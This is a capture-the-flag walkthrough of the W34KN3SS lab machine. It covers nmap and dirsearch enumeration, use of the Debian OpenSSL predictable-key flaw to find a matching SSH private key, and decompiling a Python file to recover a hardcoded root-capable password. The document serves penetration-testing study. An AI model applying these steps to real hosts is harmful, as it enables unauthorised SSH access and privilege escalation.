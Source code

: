 Rated Medium but was more for beginners.

---------------------------------------------------------------------
NMAP
---------------------------------------------------------------------

root@kali ~# nmap -sS -sV -V -T4 -p- 10.0.0.29

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 de:89:a2:de:45:e7:d6:3d:ef:e9:bd:b4:b6:68:ca:6d (RSA)
|   256 1d:98:4a:db:a2:e0:cc:68:38:93:d0:52:2a:1a:aa:96 (ECDSA)
|_  256 3d:8a:6b:92:0d:ba:37:82:9e:c3:27:18:b6:01:cd:98 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=weakness.jth/organizationName=weakness.jth/stateOrProvinceName=Jordan/countryName=jo
| Not valid before: 2018-05-05T11:12:54
|_Not valid after:  2019-05-05T11:12:54
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_ssl-date: TLS randomness does not represent time

Starting with a NMAP scan we can see the information about ssl-cert on HTTPS commonName=weakness.jth/organizationName=weakness.jth

This means that the domain name of the webserver is weakness.jth, NICE! before we even started enumerating we found the domain name.
Adding it to the /etc/hosts file we can start enumarting.

---------------------------------------------------------------------
HTTP/HTTPS
---------------------------------------------------------------------

root@kali ~/D/C/W34KN3SS# dirsearch -u https://10.0.0.29

[19:08:58] 200 -  735B  - /blog/                                            
[19:08:59] 200 -    1KB - /code                                             
[19:09:04] 200 -   11KB - /index.html                                       
[19:09:13] 403 -  299B  - /server-status/                                   
[19:09:13] 403 -  298B  - /server-status                                    
[19:09:15] 301 -  307B  - /test  ->  https://10.0.0.29/test/                
[19:09:15] 200 -   72B  - /test/                                                                           
[19:09:16] 200 -  216B  - /upload.php                                                                      
[19:09:16] 301 -  310B  - /uploads  ->  https://10.0.0.29/uploads/                                         
[19:09:16] 200 -  741B  - /uploads/   

We find a couple of intersting directories.
Going /test we get a picture of neo and it stats: it's all about keys :D. We are gonna log in with a key instead of a password via ssh.
The website running on HTTPS doesn't have any intersting information, only some rabbit holes.

Going to http://weakness.jth the site displays "keep following the white rabbit :D" with an ascii banner of a rabbit, signed by "n30" perhaps a username.

root@kali ~/D/C/W34KN3SS# dirsearch -u http://weakness.jth

[19:08:25] 200 -  526B  - /index.html                                       
[19:08:32] 301 -  314B  - /private  ->  http://weakness.jth/private/        
[19:08:33] 200 -   14B  - /robots.txt

Going to robots.txt we get another rabbit hole.

robots.txt:
Forget it !! 

Let's try going to the private directory. There are 2 files,
notes.txt:
this key was generated by openssl 0.9.8c-1

And a ssh public key, we have the public key but in order to login we need the private key, time to find some CVEs.
I tried searching for openssl 0.9.8c-1 on metasploit but found no exploit, I searched "linux commands to find exploits" and found the "searchsploit" command.

root@kali ~/D/C/W34KN3SS# searchsploit openssl 0.9.8c-1
-------------------------------------------------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- 
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG  | linux/remote/5622.txt
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG  | linux/remote/5632.rb
OpenSSL 0.9.8c-1 < 0.9.8g-9 (Debian and Derivatives) - Predictable PRNG  | linux/remote/5720.py
-------------------------------------------------------------------------

root@kali ~/D/C/W34KN3SS# searchsploit -m linux/remote/5622.txt

"After downloading the instructions it stats:
the debian openssl issue leads that there are only 65.536 possible ssh
keys generated, cause the only entropy is the pid of the process
generating the key.

This leads to that the following perl script can be used with the
precalculated ssh keys to brute force the ssh login. It works if such a
keys is installed on a non-patched debian or any other system manual
configured to."

We can download the archived from https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/5622.tar.bz2

After unarchiving it, it held the directory rsa/2048, this direcotry has all the possible ssh keys, we can search for out public key and find it's private key.

root@kali ~/D/C/W/r/2048# cat ../../mykey.pub 
ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw== root@targetcluster

root@kali ~/D/C/W/r/2048# ls -l | grep -lr "AAAAB3NzaC1yc2EAAAABIwAAAQEApC39uhie9gZahjiiMo+k8DOqKLujcZMN1bESzSLT8H5jRGj8n1FFqjJw27Nu5JYTI73Szhg/uoeMOfECHNzGj7GtoMqwh38clgVjQ7Qzb47/kguAeWMUcUHrCBz9KsN+7eNTb5cfu0O0QgY+DoLxuwfVufRVNcvaNyo0VS1dAJWgDnskJJRD+46RlkUyVNhwegA0QRj9Salmpssp+z5wq7KBPL1S982QwkdhyvKg3dMy29j/C5sIIqM/mlqilhuidwo1ozjQlU2+yAVo5XrWDo0qVzzxsnTxB5JAfF7ifoDZp2yczZg+ZavtmfItQt1Vac1vSuBPCpTqkjE/4Iklgw=="
      
result:     
4161de56829de2fe64b9055711f531c1-2537.pub

The file "4161de56829de2fe64b9055711f531c1-2537" holds our private key, let's log in with ssh. We now need a username, the only possible username I found was "n30".

root@kali ~/D/C/W/r/2048# ssh n30@10.0.0.29 -i 4161de56829de2fe64b9055711f531c1-2537

And it works!!!

We have our first flag.

user.txt:
25e3cd678875b601425c9356c8039f68

Let's see if we any root privileges.

n30@W34KN3SS:~$ sudo -l
[sudo] password for n30:

Oh, we don't have the password for the user but there is an executable in the home directory named code.

n30@W34KN3SS:~$ file code
code: python 2.7 byte-compiled

We have a complied python script.

n30@W34KN3SS:~$ python2 code
[+]System Started at : Mon Jan 24 01:20:19 2022
[+]This binary should generate unique hash for the hardcoded login info
[+]Generating the hash ..
[+]Your new hash is : f9484863bd3edcb6d654bedbe32e4eb70ebc68d86e8ea7fba0a713fa6188861a
[+]Done

It's output is a couple of unintresting stuff and a hash, this might mean there the script holds a password.
After downloading I found an online python decomplier. Source code:

{
# uncompyle6 version 3.5.0
# Python bytecode 2.7 (62211)
# Decompiled from: Python 3.6.8 (default, Nov 16 2020, 16:55:22) 
# [GCC 4.8.5 20150623 (Red Hat 4.8.5-44)]
# Embedded file name: code.py
# Compiled at: 2018-05-08 23:50:54
import os, socket, time, hashlib
print ('[+]System Started at : {0}').format(time.ctime())
print '[+]This binary should generate unique hash for the hardcoded login info'
print '[+]Generating the hash ..'
inf = ''
inf += chr(ord('n'))
inf += chr(ord('3'))
inf += chr(ord('0'))
inf += chr(ord(':'))
inf += chr(ord('d'))
inf += chr(ord('M'))
inf += chr(ord('A'))
inf += chr(ord('S'))
inf += chr(ord('D'))
inf += chr(ord('N'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('B'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('!'))
inf += chr(ord('#'))
inf += chr(ord('3'))
inf += chr(ord('3'))
hashf = hashlib.sha256(inf + time.ctime()).hexdigest()
print ('[+]Your new hash is : {0}').format(hashf)
print '[+]Done'
}

After reordering the characters we have a password for the n30 user!!

n30:dMASDNB!!#B!#!#33

Now we can see our root privileges.

n30@W34KN3SS:~$ sudo -l
[sudo] password for n30: 
User n30 may run the following commands on W34KN3SS:
    (ALL : ALL) ALL

Wow. Just Wow. We can read our final flag.

root.txt:
a1d2fab76ec6af9b651d4053171e042e